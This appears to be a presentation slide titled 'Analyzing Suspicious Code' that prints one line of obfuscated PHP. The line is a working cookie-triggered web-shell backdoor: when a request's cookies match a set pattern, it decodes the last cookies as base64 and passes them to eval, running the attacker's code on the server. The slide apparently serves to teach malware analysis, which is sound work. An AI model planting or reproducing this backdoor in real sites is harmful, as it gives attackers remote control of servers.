

# Analyzing Suspicious Code

$c='count';$a=$_COOKIE;if(reset($a)=='h4' && $c($a)>3){$k='xer';echo'<'.$k.'>';eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'),array('','+'),join(array_slice($a,$c($a)-3)))));echo '</'.$k.'>';}